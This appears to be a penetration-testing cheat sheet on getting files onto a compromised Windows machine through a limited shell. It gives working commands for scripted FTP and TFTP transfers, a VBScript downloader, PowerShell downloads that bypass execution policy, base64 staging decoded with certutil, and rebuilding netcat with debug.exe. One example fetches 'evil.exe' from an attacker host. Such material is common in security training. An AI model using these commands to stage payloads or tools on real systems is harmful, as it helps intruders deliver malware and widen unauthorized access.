 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:

**Windows XP**

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:

```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell - Base64

An alternative to the above powershell method is base64 transferring a file.  This can come in useful if dealing with command injection, where a full shell isn't possible, but you're able to run command on the device.  For this it's important to remember that the maximum length of a command in cmd.exe is 8191 characters.  

You can, however, build a sequence of commands which output chunks of base64 to a file, as below.

```
powershell -c "$b64='BASE64DATA';[io.file]::AppendAllText('%TEMP%/outfile.b64', $b64);"
```

Then it becomes a matter of decoding the final file using certutil.

```
certutil -decode %TEMP%\outfile.b64 %TEMP%\outfile.ps1
```

This should work for both ps1 and full executables, but it has been found to be a bit flaky for full executables.  Smaller ps1 scripts are safer.  Ensure certutil is actually installed on the computer first, otherwise the decoding step can be performed with a further powershell step.

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

